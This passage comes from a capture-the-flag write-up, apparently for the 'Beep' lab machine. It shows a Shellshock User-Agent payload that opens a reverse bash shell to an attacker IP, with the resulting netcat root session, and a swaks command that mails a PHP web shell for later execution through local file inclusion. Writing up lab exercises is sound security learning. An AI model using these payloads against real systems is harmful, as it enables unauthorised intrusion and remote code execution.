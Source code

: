 # Exploitation IV
This exploitation vector uses the Shellschock vulnerability. Now, I did not know of this exploit before practicing this machine. But basically, the vulnerability allows arbitrary command execution on the target system. (Read up on it [here](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf) and [here](https://blog.cloudflare.com/inside-shellshock/).)

The [Exploitation II](#exploitation-ii) vector was possible because we had the credentials for the webmin portal. Without the credentials, Shellshock makes it possible to gain access. 

Initially, I tried the exploitDB script but it does not work and gets stuck. Manually, editing the User-Agent header in the request executes the vulnerability and we get a shell as root.

```
User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.16.173/4444 0>&1
```
```
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.173] from (UNKNOWN) [10.10.10.7] 50295
bash: no job control in this shell
[root@beep webmin]# id
uid=0(root) gid=0(root)
[root@beep webmin]# whoami
root
```
# Exploitation V
Final exploitation vector, uses the SMTP server to deliver a payload and then accesses it using the LFI vulnerability that we used in [Exploitation I](#exploitation-i).
Initially, I tried to deliver the payload to the user fanis because that was the only account discovered during the enumeration, however I was unable to access the payload. Later, delivering the payload to the asterisk user worked and RCE was possible.

```
$ swaks --to asterisk@localhost --from test@test.com --header "Subject: test shell" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
=== Trying 10.10.10.7:25...
=== Connected to 10.10.10.7.
<-  220 beep.localdomain ESMTP Postfix
 -> EHLO crypto-pc
<-  250-beep.localdomain
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250 DSN
 -> MAIL FROM:<test@test.com>
<-  250 2.1.0 Ok
 -> RCPT TO:<asterisk@localhost>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Sun, 11 Jul 2021 21:51:23 -0400
 -> To: asterisk@localhost
 -> From: test@test.com
 -> Subject: test shell
 -> Message-Id: <20210711215123.010764@crypto-pc>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> check out this code: <?php system($_REQUEST["cmd"]); ?>
 -> 
 -> 
```